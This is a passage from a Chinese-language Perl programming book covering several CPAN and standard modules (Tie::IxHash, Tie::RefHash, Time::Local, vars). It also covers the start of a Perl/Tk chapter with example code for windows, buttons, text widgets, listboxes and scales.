print wrap("", "", "This text just seems to go on and on and on and on ",
"and on and on and on and on and on!");
```

> *This text
just seems
to go on*

## Tie::IxHash 按插入顺序恢复哈希表值

**Tie::IxHash** 不是一个标准模块，但你可以从 CPAN 获取它，它很有用。许多程序员因键值对在哈希表中的存储顺序与其插入顺序不同而感到困扰。你可以使用 **Tie::IxHash** 模块来解决这个问题。

要使哈希表按插入顺序保留其键值对，首先使用 **tie** 函数将你的哈希表绑定到 **Tie::IxHash** 模块，方式如下：

```perl
use Tie::IxHash;
tie %hash, "Tie::IxHash";
```

现在，哈希表的元素按插入顺序存储，并且将按该顺序返回，如你在此处所见：

```perl
use Tie::IxHash;
tie %hash, "Tie::IxHash";
$hash{fruit} = apple;
$hash{sandwich} = hamburger;
$hash{drink} = bubbly;
while(($key, $value) = each(%hash)) {
    print "$key => $value\n";
}
```

```
fruit => apple
sandwich => hamburger
drink => bubbly
```

## Tie::RefHash 在哈希表中存储硬引用

> “现在，我还有另一个问题，”新手程序员说。“我正试图在哈希表中存储一组硬引用，并且……”
“打住，”你说。“你不能那样存储硬引用，除非你使用 **Tie::RefHash**。”
“哦，告诉我更多，”NP 说。

通常你不能在哈希表中存储硬引用，因为哈希值以文本形式存储，但如果你使用 **Tie::RefHash** 模块就可以。此示例展示了如何轻松地使用此模块，以便你可以在哈希表中存储引用：

```perl
use Tie::RefHash;
$s = 5;
$hash{a} = \$s;
print ${$hash{a}};
```

5

## Time 创建时间转换

**Time** 模块允许你将本地时间或格林威治标准时间转换为自 Unix 纪元开始以来的秒数（即 1/1/1970）。例如，我像这样使用 **Time::Local** 模块来计算从 Unix 纪元开始到 1/1/2000 的秒数：

```perl
use Time::Local;
print timelocal(0, 0, 0, 1, 1, 2000);
```

*949381200*

## vars 预声明全局变量

你可以使用 **use vars** 预声明全局变量，并在启用 **use strict 'vars'** 时避免问题。（参见本章前面的主题“**strict** 约束编码实践”。）你可以像这样使用 **use vars** 预声明变量：

```perl
use vars qw($scalarname @arrayname %hashname);
```

## 第15章

# Perl/Tk——窗口、按钮及更多

| 如果你需要以下方面的即时解决方案： | 参见页码： |
|---|---|
| 创建 **Tk** 窗口 | 640 |
| 使用标签部件 | 640 |
| 使用按钮部件 | 642 |
| 使用文本部件 | 644 |
| 指定索引 | 646 |
| 使用 **pack** 安排 **Tk** 部件 | 646 |
| 将 **Tk** 事件绑定到代码 | 648 |
| 使用单选按钮和复选框按钮部件 | 650 |
| 部件状态变量 | 654 |
| 使用列表框部件 | 654 |
| 使用刻度部件 | 657 |
| 使用滚动条部件 | 660 |
| 使用画布部件 | 662 |
| 显示图像 | 665 |
| 显示位图 | 667 |
| 使用框架安排部件 | 668 |
| 使用 **place** 安排部件 | 670 |
| 使用输入框部件 | 671 |
| 使用 **Scrolled** 构造器滚动部件 | 672 |
| 使用菜单部件 | 673 |
| 使用级联菜单、复选框按钮菜单、单选按钮菜单、菜单快捷键等 | 676 |
| 使用对话框 | 681 |

## 深入探讨

Perl 非常适合处理文本；你可以搜索、打印、分割、重组、反转、转换、存储和检索文本。你可以在需要向非 Perl 程序员解释一周的文本上使用正则表达式。你可以轻松地复制、比较和移动文本文件。然而，Perl 的用户界面也是基于文本的，在一个图形界面的世界里，这可能是个问题。

Perl 非常擅长创建 HTML——这是它如此受欢迎的主要原因——你的 Web 浏览器负责处理图形。但是，如果你不想在与程序交互时使用 Web 浏览器怎么办？如果你的代码在你的桌面电脑上呢？你能用 Perl 创建图形程序吗？

是的，你可以，使用 **Tk** 模块。**Tk** 是 Tcl（工具命令语言）的主要图形函数和对象工具包。事实上，这就是 **Tk** 所代表的意思——Tcl 工具包。Tcl 是一门独立的语言（在许多方面是 Perl 的竞争对手，尽管规模较小），并且由于 **Tk** 的图形功能，它作为跨平台语言已经变得流行。现在，多亏了 **Tk** 模块，你也可以在 Perl 中使用 **Tk**。

**Tk** 模块不是 Perl 自带的标准模块；你必须从 CPAN 获取它（参见第14章的主题“安装模块”了解如何下载和安装模块）。在 Windows 中，该过程非常简单，只需连接到互联网，启动 Perl 包管理器（即运行随 Perl 附带的脚本 ppm.pl），然后输入命令 "install Tk"。

> **提示：** 请注意，如果你到 Unix 的连接是通过拨号互联网服务提供商的 shell，你将无法通过 Telnet 在你的 ISP 上运行 **Tk** 程序，因为 Telnet 只支持文本。

**Tk** 模块在 Perl 中支持 **Tk** 工具包，并允许你在 Perl 中创建可视化界面。该模块在 Perl 程序员中已经变得非常流行，我们将在本章中对其进行介绍，展示如何显示带有按钮、单选按钮、复选框按钮、菜单、列表框和其他 **Tk** *部件*的窗口。**Tk** 中的部件相当于其他图形界面中的控件——一个用户界面元素，例如你可以点击的按钮（请注意，**Tk** 部件的外观会因操作系统而异）。

因此，在本章中，我们将看到显示带有菜单、按钮等的窗口的 Perl 程序。我们将首先概述这个过程，

深入探索“快速解决方案”，因为有一些技能是所有 Perl/**Tk** 程序通用的。

第一步是创建一个 **Tk** 窗口，你可以通过包含 **Tk** 模块并创建一个新的 **MainWindow** 小部件来实现，这是程序的根小部件：

```
use Tk;

my $main = MainWindow->new;
```

要将控制权交给 **Tk** 并使窗口可见，你可以像这样调用 **MainLoop** 方法：

```
use Tk;

my $main = MainWindow->new;

MainLoop;
```

**MainLoop** 函数是程序的主要 I/O 循环，在其中，**Tk** 例程等待来自用户的输入，例如按钮点击。

然而，目前的窗口里什么都没有，所以它只会显示为一个标题栏和一个最小的*客户区*（即标题栏、工具栏和菜单栏下方，窗口底部状态栏上方，你的程序在其中显示图形的区域）。为了给这个窗口添加一些内容，我将使用 **Button** 方法为其添加一个按钮。你可以通过一个由 ***-option = value*** 对组成的列表来向这个和其他小部件方法传递选项。以下是如何向按钮的客户区添加一个标题为 **End** 的按钮的方法：

```
use Tk;

my $main = MainWindow->new;
$main->Button(-text => 'End',
    -command => [$main => 'destroy']
)->pack;

MainLoop;
```

注意其工作原理——当你使用 **$main** 窗口的 **Button** 方法时，**Tk** 知道你想将这个按钮添加到主窗口。在前面的示例中，我设置了两个选项——按钮标题中显示的文本（'**End**'）以及点击按钮时要执行的命令，在这种情况下，它将执行主窗口的 **Destroy** 方法将其从屏幕上移除。你会发现 **Tk** 像这样提供了丰富的选项和方法。例如，以下是 **Button** 可用的所有选项的完整列表：

- -activebackground
- -activeforeground
- -anchor
- -background
- -bitmap
- -borderwidth
- -command
- -cursor
- -default
- -disabledforeground
- -font
- -foreground
- -height
- -highlightbackground
- -highlightcolor
- -highlightthickness
- -image
- -justify
- -padx
- -pady
- -relief
- -state
- -takefocus
- -text
- -textvariable
- -underline
- -width
- -wraplength

上述许多选项的功能从名称上就显而易见，但有些名称有点晦涩。如需更多细节，请查看 **Tk** 模块或 **Tk** 本身附带的文档。

## 第 15 章 Perl/Tk——窗口、按钮等更多内容

**Button** 方法返回一个按钮对象的引用，并且，正如你在本示例的代码中看到的，我立即对按钮对象运行了 **Pack** 方法（这里的语法相当清晰，但要了解更多关于对象和方法的知识，请参阅第 18 章）。**Pack** 方法将按钮添加到窗口的*布局*中。

布局指定了哪个小部件放置在哪个位置。在这个示例中，我采用了默认布局，它只是垂直堆叠小部件，但有多种方式可以排列小部件（请参阅本章后面的主题“使用 **pack** 排列 **Tk** 小部件”）。你也可以将小部件放置在 **frame** 小部件中，然后根据需要排列 **frame** 小部件。

当你运行前面提供的示例代码时，你将看到图 15.1 所示的窗口。当你点击窗口中的 End 按钮时，窗口将从屏幕上消失。

这个示例说明了如何将 **Tk** 方法与 **Tk** 小部件一起使用。你可能想知道当用户点击 **Tk** 小部件时如何执行 Perl 代码，这可以通过调用 Perl 子程序而不是执行 **Tk** 代码来实现。这里有一个示例，我在前面的示例中添加了一个新按钮，给新按钮的标题为 **'Hello'**。当用户点击该按钮时，代码将在控制台上打印出 **"Hello\n"**：

```
use Tk;

my $main = MainWindow->new;
$main->Button(-text => 'Hello',
    -command => [\&printem, "Hello\n"]
)->pack;
$main->Button(-text => 'End',
    -command => [$main => 'destroy']
)->pack;

MainLoop;

sub printem
{
    print shift;
}
```



**图 15.1** 一个简单的 **Tk** 窗口。

作为 Perl 程序，前面代码中 Perl **print** 函数的输出会发送到控制台。当你运行你的 Perl/**Tk** 程序时，**Tk** 窗口会独立于控制台窗口显示在屏幕上，但控制台窗口仍然可用（尽管在某些操作系统如 Windows 中，控制台是一个 MS-DOS 窗口，它会被最小化）。

如你所见，你可以使用 **Tk** 的 **-command** 选项调用 Perl 函数，该选项在按钮被点击时被调用（**-command** 选项对应于小部件的默认操作，即点击按钮）。注意，你可以向此类函数传递参数；在这个例子中，当 **button** 被点击时，代码将参数 "**Hello\n**" 传递给函数 **printem**：

```
$main->Button(-text => 'Hello',
    -command => [\&printem, "Hello\n"]
)->pack;
```

这个示例的结果出现在图 15.2 中，你可以在该图中看到 Hello 和 End 两个按钮。

当你点击 Hello 按钮时，字符串 "**Hello\n**" 会出现在控制台上，就像任何标准 Perl 程序一样。通过这种方式，我们已经能够将带有按钮的 **Tk** 窗口集成到 Perl 程序中。你将在本章中看到如何让此类文本出现在其他小部件中。

最后还有一点需要注意——带有图形用户界面（GUI）的程序的工作方式与本书其余部分的 Perl 脚本根本不同。Perl 脚本通常按照你在代码中设置的方式执行——按顺序执行语句。另一方面，GUI 应用程序中的程序流程是由用户驱动的。程序等待用户点击或与用户界面元素交互，并做出相应响应。也就是说，用户在很大程度上决定了程序流程，这与非 GUI 程序相比程度更深，而程序的责任是在任何给定时刻向用户提供尽可能多的适用选项供其选择。通常，最好不要试图通过从用户手中夺取控制权并限制用户使用程序的方式来违背这种范式，因为用户已经习惯了在多选项的 GUI 环境中工作。结果是，支持 GUI 的程序


**图 15.2** 一个带有两个按钮的 **Tk** 窗口。

通常被划分为处理用户事件（如按钮点击）的处理例程，而不是通常冗长的、整体性的代码块。

介绍就到此为止——在“快速解决方案”部分将有更多关于 Perl/**Tk** 的内容。

> **注意：** **Tk** 内容非常丰富，这一章无法涵盖全部。本章作为该主题的入门介绍很好，但如果你真的感兴趣，请查阅 Perl/**Tk** 文档或相关书籍。

## 快速解决方案

### 创建一个 Tk 窗口

新手程序员出现并自豪地宣布：“我要给我的程序添加一个 Tk 图形界面。”“那很好，”你说。然后新手程序员问：“那么，我该怎么做呢？”“嗯，”你说，“我通常从创建一个顶层窗口开始。”

你使用 **Tk::MainWindow** 创建一个主窗口——称为 *toplevel* 窗口。与真实的 **Tk** 不同，在 Perl/Tk 程序中你可以创建多个顶层窗口。你可以使用 **Tk::MainWindow** 模块的 **new** 方法创建一个新窗口：

```
use Tk;

my $main = MainWindow->new;

MainLoop;
```

创建新的顶层窗口后，你可以通过调用 **MainLoop** 方法进入 **Tk** 事件循环来显示它，该方法处理用户事件。新窗口的默认标题是创建它的 Perl 脚本的基本名称（例如，如果你的脚本名为 widget.pl，窗口标题栏中出现的名称将是 "widget"）。

然而，我们还没有在这个窗口中放入任何东西，所以它只显示为一个标题栏和一个最小的客户区。要开始在窗口中显示小部件，请参阅下一个主题。

### 使用标签小部件

“嗯，我的第一个 Perl/Tk 程序没有我希望的那么成功；它只显示了一个标题栏，没有真正的窗口，”新手程序员说。“是时候添加一些小部件了，”你说，“让我们从标签开始。”

你使用 **Tk** 标签小部件来显示静态文本（即用户无法编辑的文本）。要创建一个标签，你可以使用 **MainWindow Label** 方法，如下所示，我将创建三个标签，每个标签的文本都是 "Hello!"，但每个标签的

不同的浮雕效果——凹陷、普通和凸起，你可以通过 **-relief** 选项进行设置（如果省略此选项，标签将显示为普通浮雕，即没有浮雕效果）：

```
use Tk;

my $main = MainWindow->new;
$main->Label(-text => 'Hello!',
            -relief => 'sunken'
)->pack;
$main->Label(-text => 'Hello!'
)->pack;
$main->Label(-text => 'Hello!',
            -relief => 'raised'
)->pack;

MainLoop;
```

请注意，每个标签都是使用主窗口对象的 **Label** 方法创建的。**Label** 方法接受以下可能的选项：

- -anchor
- -background
- -bitmap
- -borderwidth
- -cursor
- -font
- -foreground
- -height
- -highlightbackground
- -highlightcolor
- -highlightthickness
- -image
- -justify
- -padx
- -pady
- -relief
- -takefocus
- -text
- -textvariable
- -underline
- -width
- -wraplength

图 15.3 显示了前面代码的结果。你可以在图中看到这三个标签。标签是很有用的 **Tk** 小部件，你可以用它们来显示基本文本。



图 15.3 包含三个标签的 **Tk** 窗口。

## 使用按钮小部件

> "现在我已经能在窗口的 **Tk** 标签中显示一些文本了，但这并没有给用户提供太多与我的程序交互的方式，" 初级程序员说。"好的，那加一些按钮怎么样？" 你说。"太好了，" 初级程序员说。

你在本章的深入探讨部分已经看到了如何添加按钮。以下是该示例的样子，我在其中添加了两个按钮——一个结束程序，另一个让 Perl 在控制台上打印 "**Hello\n**"：

```
use Tk;

my $main = MainWindow->new;
$main->Button(-text => 'Hello',
    -command => [\&printem, "Hello\n"]
)->pack;
$main->Button(-text => 'End',
    -command => [$main => 'destroy']
)->pack;

MainLoop;

sub printem
{
    print shift;
}
```

如你所见，你使用 **-text** 选项设置按钮的标题，使用其 **-command** 选项指示点击按钮时应发生什么。以下是你可以与按钮一起使用的选项：

- **-activebackground**
- **-activeforeground**
- **-anchor**
- **-background**
- **-bitmap**
- **-borderwidth**
- **-command**
- **-cursor**
- **-default**
- **-disabledforeground**
- **-font**
- **-foreground**
- **-height**
- **-highlightbackground**
- **-highlightcolor**
- **-highlightthickness**
- **-image**
- **-justify**
- **-padx**
- **-pady**
- **-relief**
- **-state**
- **-takefocus**
- **-text**
- **-textvariable**
- **-underline**
- **-width**
- **-wraplength**

前面代码的结果出现在本章开头的图 15.2 中。特别注意，你可以像连接其他小部件一样，通过将子程序的引用传递给 **Tk** 模块来连接按钮，就像这段代码一样：

```
$main->Button(-text => 'Hello',
    -command => [\&printem, "Hello\n"]
)->pack;
```

**Tk** 中除了标准按钮外，还有其他类型的按钮——请查看本章后面的主题“使用单选按钮和复选按钮小部件”。

## 使用文本小部件

初级程序员又回来了。初级程序员说："现在用户可以点击按钮，控制台上会显示一些文本，但这样使用控制台不太图形化。" "添加一个文本来部件来显示一些文本怎么样？" 你说。

你在 **Tk** 中使用文本和输入小部件显示文本。文本小部件功能更强大，因为与输入小部件不同，它可以显示多行文本，并且具有更多用于操作文本的内置方法。用户可以向文本小部件中输入文本，或者你也可以在程序控制下将文本放置在那里。

要向窗口添加文本小部件，你使用 **Text** 方法。在这里，我将向窗口添加一个按钮和一个文本小部件；当用户点击按钮时，程序将在文本小部件中显示 "Hello!"：

```
use Tk;

$main = MainWindow->new();
$main->Button( -text => "Click Me!",
    -command => \&display
)->pack;
$text1 = $main->Text ('-width'=> 40, '-height' => 2
)->pack;

sub display
{
    $text1->insert('end', "Hello!");
}

MainLoop;
```

请注意，我使用 **-height** 和 **-width** 选项设置了文本小部件的高度和宽度（以字符为单位）。文本小部件支持以下选项：

- -background
- -borderwidth
- -cursor
- -exportselection
- -font
- -foreground
- -height
- -highlightbackground
- -highlightcolor
- -highlightthickness
- -insertbackground
- -insertborderwidth
- -insertofftime
- -insertontime
- -insertwidth
- -padx
- -pady
- -relief
- -selectbackground
- -selectborderwidth
- -selectforeground
- -setgrid
- -spacing1
- -spacing2
- -spacing3
- -state
- -tabs
- -takefocus
- -width
- -wrap
- -xscrollcommand
- -yscrollcommand

## 指定索引

当用户点击前面即时解决方案中的按钮时，程序使用文本小部件的 **Insert** 方法将文本 "Hello!" 插入到文本小部件中。你向此方法传递一个索引以及要插入的文本。你可以在 **Tk** 中通过多种方式创建索引，但两种通用方式是指定要插入文本的字符位置编号，或者使用标记 **end** 在末尾插入新文本。

你可以在只能接受单行文本的输入小部件中通过使用单个数字来指定字符位置。文本小部件可以显示多行文本，因此你需要先指定要操作的文本行来创建如下索引：

```
行.位置
```

行号从1开始，但位置从0开始。要向第2行的开头插入文本，你可以使用如下代码：

```
$text1->insert('2.0', "Hello!")
```

你也可以使用 **get(index1, index2)** 方法从文本小部件中检索文本，以及使用 **delete(index1, index2)** 方法删除文本。

图 15.4 显示了此示例的结果。你可以看到按钮和文本小部件；当用户点击按钮时，文本 "Hello!" 会出现在文本小部件中。

我们已经取得了相当大的进展——现在我们正在文本小部件中显示文本——但是，到目前为止，我们使用的小部件都是垂直打包的。**Tk** 提供了其他选项，你可以在下一个主题中看到。



图 15.4 显示 **Tk** 按钮和文本小部件。

## 使用 pack 安排 Tk 小部件

初级程序员哀怨地问道："除了垂直堆叠，就没有其他方式显示小部件了吗？我有点厌倦了。" "当然有，" 你说，"你可以使用 **pack** 方法，传递你想要的选项。"

当你将小部件打包到窗口中时，可以向 **pack** 方法传递相当多的选项来安排它们。以下是可能的选项及其功能：

- **-after = $window**—在打包顺序中，将小部件插入到 **$window** 之后。
- **-anchor = *anchor***—使用罗盘方向（如 **n**、**e** 或 **sw**）将小部件锚定在某个锚点位置。默认值为 **center**。
- **-before = $window**—在打包顺序中，将小部件插入到 **$window** 之前。
- **-expand = *boolean***—扩展小部件以占据容器中的额外空间。***boolean*** 可以是任何合适的 **Tk** 布尔值，例如 1 或 no。默认值为 0。
- **-fill = *style***—拉伸小部件。***style*** 必须具有以下值之一：**none**（默认值）、**x**（水平拉伸小部件以填充其容器的宽度）、**y**（垂直拉伸小部件以填充其容器的整个高度）或 **both**（水平和垂直拉伸小部件）。
- **-in = $container**—将小部件插入到 ***$container*** 给定的容器窗口的打包顺序末尾。
- **-ipadx = *amount***—指示小部件每侧水平内部填充的量；***amount*** 必须是有效的屏幕距离，例如 2 或 2.5c，其中 c 代表厘米。默认值为 0。
- **-ipady = *amount***—指示小部件每侧垂直内部填充的量；***amount*** 必须是有效的屏幕距离，例如 2 或 2.5c，其中 c 代表厘米。默认值为 0。
- **-padx = *amount***—指示小部件每侧水平外部填充的量。默认值为 0。
- **-pady = *amount***—指示小部件每侧垂直外部填充的量。默认值为 0。
- **-side = *side***—指示小部件将对齐到容器的哪一侧。必须是 **left**、**right**、**top** 或 **bottom**。默认值为 **top**。

这是一个例子，我将前一个主题示例中的按钮打包在窗口的左侧而不是顶部（默认情况下，因为它是第一个被打包的小部件）：

```
use Tk;

$main = MainWindow->new();
$main->Button( -text => "Click Me!",
    -command => \&display
)->pack(-side => "left");
```

```perl
$text1 = $main->Text ('-width'=> 40, '-height' => 2
)->pack;

sub display
{
    $text1->insert('end', "Hello!");
}

MainLoop;
```

结果显示在图 15.5 中，你可以看到按钮已被打包到左侧。通过使用各种 **pack** 选项，你可以按照自己的方式排列控件。请注意，你还可以将控件放入 Frame 控件中，然后再打包 Frame 控件，这样可以提供更多的控制力。


**图 15.5** 将按钮打包到左侧。

## 将 Tk 事件绑定到代码

新手程序员说："我现在可以在控件中显示文本了，但我仍然没有那种 GUI 的感觉。我还能做哪些在标准 Perl 中做不到的事情？"你回答说："嗯，试试使用鼠标怎么样？"新手程序员说："请告诉我更多。"

**Tk** 控件通常有一个可以通过 **-command** 选项处理的默认事件。例如，通过 **-command** 选项连接到 **button** 控件的子程序会在该按钮被点击时调用：

```perl
$main->Button( -text => "Click Me!",
    -command => \&display
)->pack;

sub display
{
    $text1->insert('end', "Hello!");
}
```

然而，你可以使用 **bind** 函数来处理控件默认事件以外的其他事件，用法如下：

```perl
bind('<event>', \&event_handler)
```

Tk 定义了许多可以绑定到控件的事件。例如，以下是如何将鼠标双击（在 Tk 中称为 **Double-1**）绑定到上一个即时解决方案示例中的文本控件：

```perl
use Tk;

$main = MainWindow->new();
$main->Button( -text => "Click Me!",
    -command => \&display
)->pack(-side => "left");
$text1 = $main->Text ('-width'=> 40, '-height' => 2
)->pack;
$text1->bind('<Double-1>', \&display);

sub display
{
    $text1->insert('end', "Hello!");
}

MainLoop;
```

现在，当用户双击文本控件时，子程序 **display** 将被调用。**Double-1** 是在 Tk 中使用控件时可用的事件之一；以下是一些其他事件：

-   **Mouse-n**—鼠标按键 *n* 被点击。例如，**Mouse-1** 是鼠标左键单击。
-   **Double-Mouse-n**—鼠标按键 *n* 被双击。例如，**Double-Mouse-1** 是鼠标左键双击。
-   **Motion**—鼠标被移动。
-   **Enter**—鼠标进入控件。
-   **Leave**—鼠标离开控件。
-   **KeyPress**—按下一个键。
-   *character*—输入了一个特定字符。
-   **Control+*character***—按下了 Ctrl 键加特定字符。
-   **Key-Return**—用户按下了回车键。

在这些事件中，双击事件可能是最常用的，我们将在本章后面的"使用 Listbox 控件"主题中进行介绍。

## 使用单选按钮和复选框控件

> 新手程序员说："现在我可以处理文本和按钮控件了，但如果我想让用户从多个选项中选择怎么办？""你可以通过两种方式实现。你可以向用户提供一组互斥选项或一组非互斥选项，为此你需要使用 **Tk** 单选按钮和 **Tk** 复选框，"你回答道。

**Tk** 单选按钮向用户提供一组互斥选项，一次只能选中其中一个，例如星期几。**Tk** 复选框向用户提供一组非互斥选项，可以同时选中多个，就像披萨上的配料一样。为了展示其工作原理，我将创建一个示例来展示如何同时使用单选按钮和复选框。首先，我将创建一个新的 **Tk** 主窗口：

```perl
use Tk;

$main = MainWindow->new();
```

接下来，我将添加两个单选按钮。当用户点击其中一个单选按钮时，代码将通过在文本控件 **text1** 中显示消息来指示点击了哪个单选按钮。为此，我将匿名子程序中的代码连接到 **-command** 选项：

```perl
use Tk;

$main = MainWindow->new();
$main->Radiobutton( -text => "Radio 1",
    -command => sub{
    $text1->delete('1.0', 'end');
    $text1->insert('end', "You clicked radio 1");}
)->pack;
$main->Radiobutton( -text => "Radio 2",
    -value => "0",
    -command => sub{
    $text1->delete('1.0', 'end');
    $text1->insert('end', "You clicked radio 2");
    }
)->pack;
```

以下是创建单选按钮时可以使用的可用选项：

-   -activebackground
-   -activeforeground
-   -anchor
-   -background
-   -bitmap
-   -borderwidth
-   -command
-   -cursor
-   -disabledforeground
-   -font
-   -foreground
-   -height
-   -highlightbackground
-   -highlightcolor
-   -highlightthickness
-   -image
-   -indicatoron
-   -justify
-   -padx
-   -pady
-   -relief
-   -selectimage
-   -state
-   -takefocus
-   -text
-   -textvariable
-   -underline
-   -value
-   -variable
-   -width
-   -wraplength

我还将添加两个复选框。当用户点击其中一个复选框时，代码也会通过文本框中的消息指示点击了哪个：

```perl
use Tk;

$main = MainWindow->new();
$main->Radiobutton( -text => "Radio 1",
    -command => sub{
    $text1->delete('1.0', 'end');
    $text1->insert('end', "You clicked radio 1");}
)->pack;
$main->Radiobutton( -text => "Radio 2",
    -value => "0",
    -command => sub{
    $text1->delete('1.0', 'end');
    $text1->insert('end', "You clicked radio 2");
    }
)->pack;
$main->Checkbutton( -text => "Check 1",
    -command => sub{
    $text1->delete('1.0', 'end');
    $text1->insert('end', "You clicked check 1");
    }
)->pack;
$main->Checkbutton( -text => "Check 2",
    -command => sub{
    $text1->delete('1.0', 'end');
    $text1->insert('end', "You clicked check 2");
    }
)->pack;
$text1 = $main->Text ('-width'=> 40, '-height' => 2)->pack;
MainLoop;
```

以下是向窗口添加复选框时可以使用的可用选项：

-   -activebackground
-   -activeforeground
-   -anchor
-   -background
-   -bitmap
-   -borderwidth
-   -command
-   -cursor
-   -disabledforeground
-   -font
-   -foreground
-   -highlightbackground
-   -highlightcolor
-   -highlightthickness
-   -image
-   -indicatoron
-   -justify
-   -offvalue
-   -onvalue
-   -padx
-   -pady
-   -relief
-   -selectcolor
-   -selectimage
-   -state
-   -takefocus
-   -text
-   -textvariable
-   -underline
-   -variable
-   -width
-   -wraplength


请注意，我在代码末尾添加了文本控件 **text1**。就这么简单——现在，我们正在使用单选按钮和复选框。运行代码后，你将看到图 15.6 所示的结果。



**图 15.6** 显示 **Tk** 单选按钮和复选框控件。

请注意，当你点击其中一个单选按钮时，如果另一个单选按钮之前处于选中状态，则会自动取消选中，因为一个组中一次只能选中一个单选按钮（你也可以通过将单选按钮放入 Frame 控件中来创建单选按钮组）。

另一方面，复选框不具有同样的互斥性，因此你可以选中一个、两个都不选或两个都选。这就是使用单选按钮来呈现互斥选项、使用复选框来呈现非互斥选项的方法。

## 控件状态变量

你还可以将复选框和单选按钮等控件的状态与代码中的变量关联起来，只需将该变量的引用传递给 **-variable** 选项即可。如果你想确定复选框是否被选中，这非常有用。以下是一个示例，我将一个名为 **$check1** 的变量连接到复选框的状态：

```perl
$main->Checkbutton( -text => "Check 1",
    -variable => \$check1,
    -command => sub{
      $text1->delete('1.0', 'end');
    }
)->pack;
```

现在，我可以在用户点击复选框时显示该变量的值，如下所示：

```perl
$main->Checkbutton( -text => "Check 1",
    -variable => \$check1,
    -command => sub{
      $text1->delete('1.0', 'end');
      $text1->insert('end', "\$check1 is set to: $check1");
    }
)->pack;
```

当用户点击此复选框时，**$check1** 的值将在 0 和 1 之间切换，因此你始终可以确定复选框是否已被选中。像这样的控件状态变量在代码中非常有用，它们使 GUI 与代码之间的关联变得更加容易。

## 使用 Listbox 控件

新手程序员说："嗯，我有一百个新的复选框控件，让用户选择他们想买的水果类型，而且……""打住。你需要的不是一百个复选框——你需要一个列表框来显示所有这些项目，"你回答道。新手程序员说："听起来很棒！"

你可以使用列表框向用户显示一个项目列表供其选择，通过 **Listbox** 方法创建列表框。我将编写一个示例

这里我将填充一个列表框，列出水果的名称，并将双击事件绑定到该列表框。当用户双击列表框时，代码将在文本部件中显示所选项目。

我将首先创建一个新的列表框部件，高度为5行，宽度为25个字符，如下所示：

```
use Tk;

$main = MainWindow->new();
$listbox1 = $main->Listbox("-width" => 25,
    "-height" => 5
)->pack;
```

以下是在创建列表框时可以使用的选项：

- -background
- -borderwidth
- -cursor
- -exportselection
- -font
- -foreground
- -height
- -highlightbackground
- -highlightcolor
- -highlightthickness
- -relief
- -selectbackground
- -selectborderwidth
- -selectforeground
- -selectmode
- -setgrid
- -takefocus
- -width
- -xscrollcommand
- -yscrollcommand

要向列表框中插入项目，请使用**insert**方法，指定要插入项目的索引以及项目列表（有关使用索引的更多信息，请参阅本章前面的“使用文本部件”主题）：

```
use Tk;

$main = MainWindow->new();
$listbox1 = $main->Listbox("-width" => 25,
    "-height" => 5
)->pack;
$listbox1->insert('end', "Apples", "Bananas",
    "Oranges", "Pears", "Pineapples");
```

接下来，我将双击事件绑定到列表框（参见本章前面的**将Tk事件绑定到代码**主题）：

```
use Tk;

$main = MainWindow->new();
$listbox1 = $main->Listbox("-width" => 25,
    "-height" => 5
)->pack;
$listbox1->insert('end', "Apples", "Bananas",
    "Oranges", "Pears", "Pineapples");
$listbox1->bind('<Double-1>', \&getfruit);
```

在这里，我将双击事件绑定到一个名为**getfruit**的Perl子程序。在该子程序中，我将使用**Get**方法获取列表框中当前活动的项目，如下所示：

```
$listbox1->get('active')
```

然后，我将在文本部件中显示它：

```
use Tk;

$main = MainWindow->new();
$listbox1 = $main->Listbox("-width" => 25,
    "-height" => 5
)->pack;
$listbox1->insert('end', "Apples", "Bananas",
    "Oranges", "Pears", "Pineapples");
$listbox1->bind('<Double-1>', \&getfruit);
$text1 = $main->Text ('-width'=> 40, '-height'
    => 2
)->pack;

sub getfruit {
    $fruit = $listbox1->get('active');
    $text1->insert('end', "$fruit ");
}

MainLoop;
```

就是这样。图15.7显示了结果。当用户双击**列表框**中的项目时，这些项目会自动添加到窗口底部的文本部件中。



图15.7 显示一个**Tk**列表框部件。

## 使用刻度部件

“这里有个问题，”新手程序员说，“我想让用户选择一个温度值，但又不想让他们直接输入数字。”“没问题，”你说，“你可以使用刻度部件来显示一个值的滑动刻度。”

你可以使用刻度部件让用户从连续的值范围中进行选择。用户可以沿着刻度移动一个小方框，称为*滑块*。为了展示其工作原理，我将编写一个示例，用户可以使用刻度从0到200中选择一个数字。

我将首先创建一个主窗口和该窗口中的一个刻度。我将给刻度一个从0到200的值范围；在刻度上每40个单位添加一个刻度线；将一个子程序**display**连接到该刻度；并将一个变量**$value**连接到该刻度以保存刻度的当前设置（有关将变量连接到部件状态的更多信息，请参阅本章前面的“使用单选按钮和复选框部件”主题）：

```
use Tk;

$main = MainWindow->new();
$main->Scale('-orient'=> 'horizontal',
    '-from' => 0,
    '-to' => 200,
    '-tickinterval' => 40,
    '-label' => 'Select a value:',
    '-length' => 200,
    '-variable' => \$value,
    '-command' => \&display
)->pack;

$text1 = $main->Text ('-width'=> 40,
    '-height' => 2
)->pack;
```

以下是在创建刻度部件时可以使用的选项：

- -activebackground
- -background
- -bigincrement
- -borderwidth
- -command
- -cursor
- -digits
- -font
- -foreground
- -from
- -highlightbackground
- -highlightcolor
- -highlightthickness
- -label
- -length
- -orient
- -relief
- -repeatdelay
- -repeatinterval
- -resolution
- -showvalue
- -sliderlength
- -sliderrelief
- -state
- -takefocus
- -tickinterval
- -to
- -troughcolor
- -variable
- -width

在**display**子程序中，我只需在文本部件中显示刻度的当前值，如下所示：

```
use Tk;

$main = MainWindow->new();

$main->Scale('-orient'=> 'horizontal',
    '-from' => 0,
    '-to' => 200,
    '-tickinterval' => 40,
    '-label' => 'Select a value:',
    '-length' => 200,
    '-variable' => \$value,
    '-command' => \&display
)->pack;

$text1 = $main->Text ('-width'=> 40,
    '-height' => 2
)->pack;

sub display
{
    $text1->delete('1.0','end');
    $text1->insert('end', "$value");
}

MainLoop;
```

结果如图15.8所示。如图所示，用户可以移动刻度上的滑块，刻度和代码都会显示刻度的当前值。

图15.8 显示一个**Tk**刻度部件。



### 使用滚动条部件

